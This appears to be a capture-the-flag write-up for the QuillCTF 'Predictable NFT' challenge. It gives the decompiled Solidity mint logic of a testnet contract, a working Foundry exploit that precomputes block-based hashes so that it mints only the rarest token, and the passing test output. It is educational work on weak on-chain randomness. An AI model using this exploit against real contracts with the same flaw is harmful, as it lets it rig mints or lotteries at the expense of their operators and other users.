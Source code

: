# QuillCTF : Predictable NFT

## Objective of CTF

In this game, you can spend 1 ether to "mint" an NFT token with 3 possible ranks: Common(1), Rare(2), and Superior(3). As a hacker, your goal is to always mint the Superior ones.

### Contract:
So this time, the contract isn't open source, but who needs that anyway? 


You can find the underlying contract of this game on the Goerli Testnet.

Contract Address: 0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC


We can decompile the bytecode on that address :
```
def mint() payable: 
  if call.value != 10^18:
      revert with 0, 'show me the money'
  if id > id + 1:
      revert with 0, 17
  id++
  if sha3(id, caller, block.number) % 100 > 90:
      tokens[stor0] = 3
  else:
      if sha3(id, caller, block.number) % 100 <= 80:
          tokens[stor0] = 1
      else:
          tokens[stor0] = 2
  return id
```

To mint an NFT, we have to pay 1 ether as value, also the keccak256 hash of id, caller and block number need to be greater than 90 after mod 100

We can just check if the id, caller and block number match the requirement on each block until it match the requirement, then call the `mint()` function

## Proof of concept

### Foundry test

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

import "forge-std/Test.sol";

contract PredictableNFTTest is Test {
	address nft;

	address hacker = address(0x1234);

	function setUp() public {
		vm.createSelectFork("goerli");
		vm.deal(hacker, 1 ether);
		nft = address(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);
	}

	function test() public {
		vm.startPrank(hacker);
		uint mintedId;
		uint currentBlockNum = block.number;

		// Mint a Superior one, and do it within the next 100 blocks.
		for(uint i=0; i<100; i++) {
			vm.roll(currentBlockNum);

			// ---- hacking time ----
			(, bytes memory id) = nft.call(abi.encodeWithSignature("id()"));
			if (uint256(keccak256(abi.encode(abi.decode(id, (uint256)) + 1, hacker, block.number))) % 100 > 90) {
			    (, bytes memory minted) = nft.call{value: 1 ether}(abi.encodeWithSignature("mint()"));
			    mintedId = abi.decode(minted, (uint256));
			    console.log("Minted : ", mintedId);
			    (, bytes memory rank) = nft.call(abi.encodeWithSignature("tokens(uint256)", mintedId));
			    console.log("Rank : ", abi.decode(rank, (uint256)));
			    break;
                        }
			currentBlockNum++;
		}

		// get rank from `mapping(tokenId => rank)`
		(, bytes memory ret) = nft.call(abi.encodeWithSignature(
			"tokens(uint256)",
			mintedId
		));
		uint mintedRank = uint(bytes32(ret));
		assertEq(mintedRank, 3, "not Superior(rank != 3)");
	}
}
```

### Foundry test output

```
# forge test --match-path test/predictableNFT.t.sol -vv
[⠑] Compiling...
No files changed, compilation skipped

Running 1 test for test/predictableNFT.t.sol:PredictableNFTTest
[PASS] test() (gas: 149332)
Logs:
  Minted :  1
  Rank :  3

Test result: ok. 1 passed; 0 failed; finished in 1.32s
```